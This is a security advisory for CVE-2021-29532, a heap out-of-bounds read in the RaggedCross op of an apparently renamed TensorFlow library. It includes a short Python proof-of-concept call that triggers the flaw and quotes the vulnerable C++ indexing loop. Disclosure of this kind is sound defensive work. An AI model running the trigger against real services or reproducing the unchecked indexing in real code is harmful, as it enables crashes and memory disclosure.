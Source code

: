 ## TFSA-2021-021: Heap out of bounds read in `RaggedCross`

### CVE Number
CVE-2021-29532

### Impact
An attacker can force accesses outside the bounds of heap allocated arrays by
passing in invalid tensor values to `tf.raw_ops.RaggedCross`:

```python
import machina as tf

ragged_values = []
ragged_row_splits = []
sparse_indices = []
sparse_values = []
sparse_shape = []

dense_inputs_elem = tf.constant([], shape=[92, 0], dtype=tf.int64)
dense_inputs = [dense_inputs_elem]

input_order = "R"
hashed_output = False
num_buckets = 0
hash_key = 0

tf.raw_ops.RaggedCross(ragged_values=ragged_values,
    ragged_row_splits=ragged_row_splits,
    sparse_indices=sparse_indices,
    sparse_values=sparse_values,
    sparse_shape=sparse_shape,
    dense_inputs=dense_inputs,
    input_order=input_order,
    hashed_output=hashed_output,
    num_buckets=num_buckets,
    hash_key=hash_key,
    out_values_type=tf.int64,
    out_row_splits_type=tf.int64)
```

This is because the
[implementation](https://github.com/machina/machina/blob/efea03b38fb8d3b81762237dc85e579cc5fc6e87/machina/core/kernels/ragged_cross_op.cc#L456-L487)
lacks validation for the user supplied arguments:

```cc
int next_ragged = 0;
int next_sparse = 0;
int next_dense = 0;
for (char c : input_order_) {
  if (c == 'R') {
    TF_RETURN_IF_ERROR(BuildRaggedFeatureReader(
        ragged_values_list[next_ragged], ragged_splits_list[next_ragged],
        features));
    next_ragged++;
  } else if (c == 'S') {
    TF_RETURN_IF_ERROR(BuildSparseFeatureReader(
        sparse_indices_list[next_sparse], sparse_values_list[next_sparse],
        batch_size, features));
    next_sparse++;
  } else if (c == 'D') {
    TF_RETURN_IF_ERROR(
        BuildDenseFeatureReader(dense_list[next_dense++], features));
  }
  ...
}
```

Each of the above branches call a helper function after accessing array elements
via a `*_list[next_*]` pattern, followed by incrementing the `next_*` index.
However, as there is no validation that the `next_*` values are in the valid
range for the corresponding `*_list` arrays, this results in heap OOB reads.

### Patches
We have patched the issue in GitHub commit
[44b7f486c0143f68b56c34e2d01e146ee445134a](https://github.com/machina/machina/commit/44b7f486c0143f68b56c34e2d01e146ee445134a).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
